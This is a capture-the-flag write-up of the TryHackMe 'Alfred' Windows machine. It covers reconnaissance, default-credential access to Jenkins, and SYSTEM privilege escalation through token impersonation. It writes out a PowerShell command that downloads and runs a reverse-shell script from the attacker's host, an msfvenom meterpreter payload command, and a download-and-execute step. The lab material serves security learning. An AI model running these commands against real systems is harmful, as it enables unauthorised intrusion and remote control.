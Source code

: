 
# TryHackMe - Alfred

## Recon Stage

Starting with an nmap of the target, we get:

```
┌──(kali㉿kali)-[~/TryHackMe/Alfred]
└─$ nmap -sV -Pn 10.10.6.87                   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-10 11:16 EST
Nmap scan report for 10.10.6.87
Host is up (0.021s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds
```

The webserver on port 80 seems static and uninteresting for the moment, so I go ahead and explore the webserver on port 8080 which seems to be running a version of Jenkins:

![](2021-03-10-11-18-34.png)

Just trying the combination 'admin:admin' gave me access:

![](2021-03-10-11-19-50.png)

After looking into the 'project' project, I found that in their settings there is a build trigger that executes a batch command:

![](2021-03-10-11-23-51.png)

This is most likely going to be our attack vector

## Exploitation

As the target is running Windows, I will be using a reverse powershell found [here](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

I perform a wget for the powershell script and startup a python http server so the target can download the script from me:

![](2021-03-10-11-27-20.png)


I then enter the following bash code to execute a download request and invokation of the script:

``
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.3.207:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.3.207 -Port 4444
``

![](2021-03-10-11-29-19.png)

and start a netcat process listening on port 4444:

![](2021-03-10-11-30-26.png)


Back on the website, I save the new configuration and click 'Build Now'.

I am then given a reverse powershell:

![](2021-03-10-11-32-09.png)

I then navigate over to the C:/Users/bruce, on their Desktop holds the user flag.

## Switching Shells

Following with TryHackMe, I attempt to switch shells over to meterpreter to make privilege escalation easier. To do this, I generated a meterpreter reverse shell payload using msfvenom:

``msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.3.207 LPORT=4443 -f exe -o shell.exe``


I then started metasploit and setup my handler:

![](2021-03-10-11-39-58.png)

And then downloaded and executed the shell by executing the following commands on the target machine:

```
PS C:\Program Files (x86)\Jenkins\workspace\project>powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.9.3.207:8000/shell.exe', './shell.exe');"
PS C:\Program Files (x86)\Jenkins\workspace\project> Start-Process "shell.exe"
PS C:\Program Files (x86)\Jenkins\workspace\project> 
```

![](2021-03-10-11-46-26.png)

Great, we have our meterpreter shell now!

## Privilege Escalation

I start by checking privileges for the current user:

![](2021-03-10-11-49-22.png)

As we can see, SeImpersonatePrivilege is enabled for this user.

I return back into meterpreter and load the incognito library.

Checking what tokens are available using ``list_tokens -g`` I find that BUILTIN\Administrators is available. I attempt to impersonate this token:

![](2021-03-10-11-52-27.png)

I then find and migrate to a higher privilege process, such as services.exe:

![](2021-03-10-11-54-14.png)

This is because, whilst I may have a higher privileged token, I may not have such high permissions as Windows will look at my primary token initially and not the impersonated one.

And now we have SYSTEM access to this machine. I can simply navigate over to the restricted path and find the root flag.